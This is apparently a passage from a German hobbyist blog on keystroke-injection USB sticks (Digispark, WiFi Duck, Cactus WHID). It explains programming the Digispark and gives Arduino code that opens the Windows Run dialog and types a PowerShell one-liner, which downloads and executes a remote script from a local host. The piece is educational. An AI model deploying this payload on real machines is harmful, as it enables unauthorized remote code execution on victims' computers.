 ## Verschieden Sticks
Es gibt einige Sticks, die ich für diese Angriffe nehmen kann, ich habe mal ein paar getestet. Es sind drei verschiedene, der Erste ist das Digispark Board.
Das Zweite ist ein DIY Projekt und nennt sich WiFi Duck. Und der Letzte ist der Cactus WHID Stick.


### Digispark Board

![Digispark Board](img/digispark.jpg)

Ist ein sehr günstiger USB Stick, bestückt mit einem ATtiny85, dies ist ein sehr schwacher Mikrocontroller von Atmel (heute Microchip).
Der Stick ist sehr langsam mit seinen Tasteneingaben, zudem ist er sehr auffällig, aber ist ein guter und günstiger Einstieg in das Thema Keystroke Injection.
Hier ein gutes Video von [Null Byte](https://www.youtube.com/watch?v=A3cB9BDE6XM) wie dieser programmiert wird.


#### Programmien mit Arduino IDE
Zunächst muss die Arduini IDE installiert werden. In den Voreinstellung muss um folgende URL ergänzt werden:

`http://digistump.com/package_digistump_index.json`

Dann im Boardverwalter die  `Digistump AVR Board` installieren. Leider kann hier kein Ducky Script verwendet werden, die Borads müssen in der Arduino IDE programmiert werden.
Aber auch hier findet man Beispiele im Netz, zum Beispiel auf [Github](https://github.com/CedArctic/DigiSpark-Scripts).

Hier das Ducky Script umgewandelt in ein Arduino Code:

{{< codeWide >}}
#include "DigiKeyboard.h"
void setup() {
}

void loop() {
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.delay(1000);
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
  DigiKeyboard.delay(1000);
  DigiKeyboard.print("powershell \"IEX (New-Object Net.WebClient).DownloadString('http://ducky.fritz.box/payload.ps1');\"");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  for (;;) {
    /*Stops the digispark from running the scipt again*/
  }
}
{{< /codeWide >}}
